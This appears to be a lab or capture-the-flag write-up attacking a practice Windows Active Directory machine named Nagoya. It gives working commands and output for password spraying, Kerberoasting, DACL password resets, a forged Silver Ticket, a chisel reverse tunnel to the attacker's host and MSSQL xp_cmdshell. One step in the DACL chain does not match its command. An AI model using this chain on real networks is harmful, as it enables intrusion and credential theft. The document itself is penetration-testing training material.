

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows (Server 2019) |
| Difficulty                | Hard |
| Attack Surface            | IIS web application, Active Directory, MSSQL (internal) |
| Primary Entry Vector      | Web team page username enumeration -> password spray -> Kerberoasting -> DACL chain to WinRM |
| Privilege Escalation Path | SYSVOL ResetPassword.exe decompile -> Silver Ticket -> MSSQL sysadmin -> OPENROWSET proof.txt |

## Credentials

```text
andrea.hayes        Nagoya2023          (password spray)
svc_mssql           Service1            (Kerberoasting)
svc_helpdesk        U299iYRmikYTHDbPbxPoYYfa2j4x4cdg  (ResetPassword.exe decompile)
svc_web             Service1            (Nagoya.dll decompile)
```

## Reconnaissance

---
💡 Why this works
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.21:53
Open 192.168.198.21:80
Open 192.168.198.21:88
Open 192.168.198.21:135
Open 192.168.198.21:389
Open 192.168.198.21:445
Open 192.168.198.21:5985
Open 192.168.198.21:9389
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Nagoya Industries - Nagoya
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com)
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
```

SMB, RPC, and LDAP all denied anonymous access. Directory brute-forcing on port 80 discovered a `/Team` endpoint that listed employee names:

```bash
feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt \
  -t 50 -r --timeout 3 --no-state -s 200,301,302,401,403 \
  -x php,html,txt -u http://$ip
```

```bash
200      GET      180l      258w     6896c http://192.168.198.21/Team
```

Employee names were extracted and converted to `first.last` format usernames:

```bash
curl -s http://$ip/Team | grep -oP '<td>\K[^<]+' | paste - - | tee raw_names.txt
```

Kerbrute validated 28 usernames against the domain:

```bash
kerbrute userenum -d nagoya-industries.com --dc $ip usernames_all.txt
```

```bash
[+] VALID USERNAME:  andrea.hayes@nagoya-industries.com
[+] VALID USERNAME:  christopher.lewis@nagoya-industries.com
[+] VALID USERNAME:  iain.white@nagoya-industries.com
... (28 valid users total)
```

## Initial Foothold

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

Password spraying with guessed company-themed passwords found a valid credential:

```bash
nxc smb $ip -u user.txt -p 'Nagoya2023' --continue-on-success
```

```bash
SMB  192.168.198.21  445  NAGOYA  [+] nagoya-industries.com\andrea.hayes:Nagoya2023
```

Kerberoasting with the obtained account revealed two SPN accounts:

```bash
impacket-GetUserSPNs nagoya-industries.com/andrea.hayes:Nagoya2023 -dc-ip $ip -request
```

```bash
ServicePrincipalName                Name          MemberOf
----------------------------------  ------------  ------------------------------------------------
http/nagoya.nagoya-industries.com   svc_helpdesk  CN=helpdesk,CN=Users,DC=nagoya-industries,DC=com
MSSQL/nagoya.nagoya-industries.com  svc_mssql
```

John cracked the `svc_mssql` TGS hash:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```bash
Service1         (?)
```

BloodHound analysis revealed a DACL abuse chain:
1. `andrea.hayes` (employees OU) -> GenericAll -> `Iain.White` (helpdesk OU)
2. `Iain.White` (helpdesk) -> GenericAll -> `Christopher.Lewis` (employees OU, developers group)
3. `Christopher.Lewis` (developers = Remote Management Users) -> WinRM shell

Password changes via bloodyAD:

```bash
bloodyAD -d nagoya-industries.com -u 'andrea.hayes' -p 'Nagoya2023' \
  --host $ip set password 'SVC_HELPDESK' 'Password123'
```

```bash
[+] Password changed successfully!
```

```bash
bloodyAD -d nagoya-industries.com -u 'SVC_HELPDESK' -p 'Password123' \
  --host $ip set password 'CHRISTOPHER.LEWIS' 'Password123'
```

```bash
[+] Password changed successfully!
```

WinRM shell obtained:

```bash
evil-winrm -i $ip -u Christopher.Lewis -p Password123
```

```bash
*Evil-WinRM* PS C:\Users\Christopher.Lewis\Documents>
```

```bash
*Evil-WinRM* PS C:\> type local.txt
e45c15c9180cfc730a8f16343af65420
```

💡 Why this works
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
The SYSVOL share contained a `ResetPassword.exe` in the scripts directory. Decompiling with `ilspycmd` revealed hardcoded credentials:

```bash
smbclient //192.168.198.21/SYSVOL -U "andrea.hayes" \
  --password="Nagoya2023" -W nagoya-industries.com -c "recurse; ls"
```

```bash
\nagoya-industries.com\scripts\ResetPassword
  ResetPassword.exe                   A     5120  Mon May  1 02:04:02 2023
  ResetPassword.exe.config            A      189  Mon May  1 01:53:50 2023
```

```bash
ilspycmd ResetPassword.exe
```

```csharp
private static string service_username = "svc_helpdesk";
private static string service_Password = "U299iYRmikYTHDbPbxPoYYfa2j4x4cdg";
```

The web application DLL (`Nagoya.dll`) was also decompiled, revealing another credential:

```bash
ilspycmd Nagoya.dll | grep -A5 "PrincipalContext"
```

```csharp
PrincipalContext val = new PrincipalContext((ContextType)1, "nagoya-industries.com", "svc_web", "Service1");
```

WinPEAS discovered MSSQL listening on localhost:1433 (not externally exposed):

```bash
Protocol   Local Address         Local Port    Remote Address        Remote Port     State
TCP        0.0.0.0               1433          0.0.0.0               0               Listening
```

A Silver Ticket was forged to impersonate Administrator on the MSSQL service. First, compute the NTLM hash for `svc_mssql` (password: `Service1`) and get the domain SID:

```bash
python3 -c "import hashlib; print(hashlib.new('md4','Service1'.encode('utf-16le')).hexdigest())"
# e3a0168bc21cfb88b95c954a5b18f57c
```

```bash
impacket-lookupsid nagoya-industries.com/andrea.hayes:Nagoya2023@$ip 0
# Domain SID is: S-1-5-21-1969309164-1513403977-1686805993
```

Forge the Silver Ticket:

```bash
impacket-ticketer \
  -nthash e3a0168bc21cfb88b95c954a5b18f57c \
  -domain-sid S-1-5-21-1969309164-1513403977-1686805993 \
  -domain nagoya-industries.com \
  -spn MSSQL/nagoya.nagoya-industries.com \
  -user-id 500 \
  Administrator
```

```bash
[*] Saving ticket in Administrator.ccache
```

Chisel was used to port-forward MSSQL from the target to Kali:

```bash
# Kali
chisel server --reverse -p 8081

# Target
.\chisel.exe client 192.168.45.166:8081 R:1433:localhost:1433
```

Connect to MSSQL with the Silver Ticket as sysadmin:

```bash
export KRB5CCNAME=Administrator.ccache
impacket-mssqlclient -k nagoya.nagoya-industries.com \
  -no-pass -target-ip 127.0.0.1 -port 1433
```

```bash
SQL (NAGOYA-IND\Administrator  dbo@master)> SELECT IS_SRVROLEMEMBER('sysadmin');
-- 1

SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
nagoya-ind\svc_mssql

SQL> SELECT BulkColumn FROM OPENROWSET(BULK 'C:\Users\Administrator\Desktop\proof.txt', SINGLE_CLOB) AS x;
b'c8525550ec0226b4e1ef2f363d6c6636\r\n'
```

💡 Why this works
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- Company-themed passwords (e.g., `Nagoya2023`) are a common spray vector — enforce strong password policies.
- DACL chains (GenericAll across OUs) can be abused to cascade password resets across multiple accounts.
- .NET executables in SYSVOL should never contain hardcoded credentials — always decompile with `ilspycmd` or `dnSpy`.
- Silver Tickets bypass KDC validation entirely — if a service account password is known, the attacker can impersonate any user to that service.
- Internal-only MSSQL instances are still exploitable via port forwarding (chisel) combined with Silver Ticket authentication.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- Kerbrute: https://github.com/ropnop/kerbrute
- bloodyAD: https://github.com/CravateRouge/bloodyAD
- BloodHound: https://github.com/SpecterOps/BloodHound
- ILSpy / ilspycmd: https://github.com/icsharpcode/ILSpy
- Silver Ticket: https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/silver-ticket.html
- Chisel: https://github.com/jpillora/chisel
- Impacket: https://github.com/fortra/impacket
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
